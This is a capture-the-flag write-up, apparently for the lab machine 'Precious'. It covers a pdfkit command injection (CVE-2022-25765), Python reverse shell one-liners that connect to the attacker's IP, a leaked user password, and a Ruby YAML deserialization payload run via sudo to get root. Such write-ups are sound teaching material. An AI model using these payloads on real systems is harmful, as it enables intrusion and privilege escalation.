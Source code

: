 # Precious

## Summary

* [Info Gathering](#info-gathering)
* [Exploiting](#exploiting)
* [User](#user)
* [Root](#root)

## Info Gathering
First thing let's scan for the open ports:
```
[vecio@vecio ~]$ nmap 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-26 17:07 CEST
Nmap scan report for 10.10.11.189
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.84 seconds
```
We know that there are 2 services open: SSH service on the port 22 and an HTTP server on the default port 80.
We can check out the web server, so we add the IP address to the `/etc/hosts` file:
```
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1	localhost
::1		localhost
127.0.1.1	vecio.localdomain	vecio

10.10.11.189	precious.htb
```
We can now access the web server on the browser using its domain or the IP address.

The only functionality present is to convert a web page into a PDF file.
We can test that out by starting a python web server and trying to get its PDF file.
```bash
python -m http.server
```
We can now enter our IP address followed by the port which the python web server has been opened: `http://10.10.16.79:8000/` and get its PDF file.
We can get more information by reading the file metadata using the `Exiftool`, so `exiftool file.pdf`:
```
ExifTool Version Number         : 12.50
File Name                       : edlaxwm1d82couplf7vpkkm9b4nyht3g.pdf
Directory                       : .
File Size                       : 29 kB
File Modification Date/Time     : 2023:03:26 17:12:58+02:00
File Access Date/Time           : 2023:03:26 17:13:44+02:00
File Inode Change Date/Time     : 2023:03:26 17:12:58+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```
We can see that the file has been created by the `pdfkit v0.8.6` ruby package.
We can use Google to search some known vulnerabilities about this package.

## Exploiting
We find [CVE-2022-25765: Command Injection](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) which allows us to inject a command if the URL is not sanitized.
Let's understand how the vulnerability works: an application could be vulnerable if it tries to render a URL that contains query string parameters with user input:
```ruby
PDFKit.new("http://example.com/?name=#{params[:name]}").to_pdf
```
If the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF:
```ruby
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf
```
Calling `to_pdf` on the instance shows that the `sleep` command is indeed executing.
The `%20` is a URL-encoded space character, which allows the attacker to separate the injected command from the rest of the URL.
When PDFKit is used to generate a PDF from a URL, it first converts the URL into a command line argument string that is passed to a command line tool to generate the PDF.

So we can input the URL `` http://10.10.16.79:8000/?name=%20`sleep 5` `` to test the vulnerability and see that the operation takes 5 seconds to get the PDF file, so the website is vulnerable to this exploit.

## Reverse Shell
We can now execute a reverse shell script to get access to the server.
Let's start listening to connections on port `1234` using `Netcat`:
```
nc -lvnp 1234
```
now we can execute a python reverse shell using the exploit entering the following URL `` http://10.10.16.79:8000/?name=%20`export RHOST="10.10.16.79";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'` `` and get access to the server.

## User
Getting the user flag is quite simple, we can see we're logged in as the user `ruby`, looging around the directory `home` we find out that the flag is inside the `henry` directory, but we don't have permission to read the file `user.txt`.
Looking inside the our `ruby` directory using `ls -la` we can see a strange directory called `.bundle`, inside of which there is a file `config`, which contains a credential leak of the user `henry:Q3c1AqGHtoI0aXAYFH`.
We can now switch user or log in using SSH and get the flag: `su henry`.

## Root
First thing we check what commands the user is allowed to execute using `sudo -l`:
```
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
We can see that we can execute the the file `update_dependencies.rb` with ruby as `root` without using a password.
Let's check out that ruby file:
```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
We can see that the `list_from_file` function loads the `dependencies.yml` file using the `YAML.load()` method.
With a bit of research we can find that the `.load()` method is vulnerable to a [YAML Deserialization Attack](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/).
We can use a special payload, writing our own `dependencies.yml` file and make the script execute our code with root privileges:
Let's try the exploit writing our `dependencies.yml` file in the `/home/henry/` directory:
```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "whoami"
         method_id: :resolve
```
and executing it using `sudo /usr/bin/ruby /opt/update_dependencies`.
We can see on top of the error the `root` output, so the command is executed as root.
Our file is executed instead of the original one because the path to the file passed in the method `File.read(dependencies.yml)` is relative, so depends on where the script is executed from, in our case the `/home/henry/` directory.

We can use this vulnerability to get a privileged reverse python3 `/bin/bash` shell on a different port, so we want the script to execute this command: `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.79\",4999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/sh\")'`
So we listen on the port `4999` on our local machine:
```
nc -lvnp 4999
```
and execute the file on the server.
Once we got the `/bin/bash` shell we can `cd /root` and get the flag in the `root.txt` file/
